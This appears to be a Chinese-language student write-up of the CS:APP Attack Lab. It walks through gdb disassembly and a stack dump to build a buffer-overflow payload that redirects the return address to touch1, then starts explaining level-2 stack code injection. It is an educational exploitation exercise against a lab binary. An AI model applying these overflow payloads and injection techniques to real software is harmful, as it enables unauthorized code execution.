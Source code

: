 ```
=> 0x0000000000401968 <+0>:	sub    $0x8,%rsp
   0x000000000040196c <+4>:	mov    $0x0,%eax
   0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	retq   

```
先看一下test函数的反汇编，找到返回地址为0x401976
```
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
=> 0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq  
```
```
0x5561dc78:	0x34333231	0x00003635	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x55586000	0x00000000	0x00401976	0x00000000
0x5561dca8:	0x00000009	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
0x5561dcc8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dcd8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dce8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dcf8:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
0x5561dd08:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
```
进入到getbuf函数，找到0x401976，由于变量是从低地址往高地址写，在一定长度后总会覆盖到返回地址，这个长度的值可以从汇编对rsp的操作进行计算，也可以通过观察内存布局来计算，在这里应该就是0x28

接着找到touch1函数的地址为0x4017c0

最后的payload就是
"A"\*40+"\xc0\x17\x40"

### level-2(code-injection)

touch2的地址为0x4017ec

由于写在栈上的数据是从低地址向高地址，指令的执行也是从低地址向高地址，因此如果把指令写在栈上，返回地址覆盖为栈上指令的地址，再执行一些操作（比如传递参数），最后ret到目标函数就可以成功执行了

* 生成byte-code
1. write a file example.s
```
# Example of hand-generated assembly code
pushq	$0xabcdef	# Push value onto stack
addq	$17,%rax	# Add 17 to %rax
movl	%eax,%edx	# Copy lower 32 bits to %edx
```
2. 
```
unix> gcc -c example.s
unix> objdump -d example.o
```
